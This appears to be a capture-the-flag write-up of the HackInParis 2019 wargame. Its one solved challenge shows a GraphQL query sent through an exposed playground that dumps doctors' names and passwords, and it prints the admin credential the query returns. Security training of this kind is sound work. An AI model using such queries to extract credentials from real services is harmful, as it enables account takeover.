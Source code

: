 # HackInParis 2019 Wargame write-up

### intro

I didn't attend HIP(only budgeted for LeHack :p), but they were kind to host a publicly accessible wargame. 
It was a good opportunity to evaluate Sysdream "Malice" CTF platform of on-demand CTF's for security training or other needs.

## Meet your doctor 1

We are tasked to retrieve the site administrators password. We have a website without any login forms or other vectors for injection.

However, there is a link "Try our API!", which gives us a nice [GraphQL playground](https://github.com/prisma/graphql-playground), 
which allows us to see the API schema and construct the queries inside the browser. 

![Image](https://eqqn.github.io/images/Doctor3.JPG)

We get a list of doctors and their passwords by constructing this query:
``` 
{
    doctors{
    firstName, 
    lastName, 
    password}
}
```

And receive a response of many doctors, plus their passwords

```
      {
        "firstName": "Admin",
        "lastName": "Admin",
        "password": "Now-_Let$|GetSeri0us"
      }
```

## Defcon 5
